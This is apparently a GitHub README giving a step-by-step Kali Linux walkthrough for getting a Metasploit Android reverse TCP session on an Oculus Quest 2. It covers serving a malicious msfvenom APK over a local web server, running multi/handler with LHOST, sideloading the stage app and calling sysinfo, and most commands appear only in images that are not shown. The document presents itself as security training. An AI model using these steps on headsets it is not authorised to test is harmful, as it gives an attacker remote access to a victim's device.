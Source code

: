 # Kali - Android Reverse TCP Handler Exploit on Oculus Question 2
### Oculus Quest 2 &amp; Kali Linux Exploit

Prerequisite Setup:
Oculus Quest 2 Developer Mode Enabled

Steps:
Configure WebServer from Kali <br/>
sudo python3 -m http.server --bind 127.0.0.1 9000 <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/apache%20webserver.png)

Configure localtunnel for browser redirect (optional) <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/localtunnel.png)

Confirm access to webserver on custom port
Create msfvenom malicious android .apk & put on desktop<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/msfvenom.png)

Launch msfconsole and use exploit/multi/handler for android reverse_tcp payload & 
set LHOST<br/>
show options<br/>
exploit<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/TCP%20handler.png)

Download & Install androidApp.apk from WebServer<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/oculus%20browser.png)

Run MainActivity com.metasploit.stage<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/unsupported%20apps.png)

Sysinfo<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/sysinfo.png)

  
  
Links:<br/>
  Access Android with Metasploit Kali (Cybersecurity) - https://www.youtube.com/watch?v=YRm-St0bJhU <br/>
  How To Set Up Port Forwarding in Kali Linux Without Router Access | Kali Linux 2021.2 - https://www.youtube.com/watch?v=juu5PM0_NUI <br/>
  Kali http server setup - https://linuxconfig.org/kali-http-server-setup <br/>
  
Notes: This infomation is for training and security research purposes only.
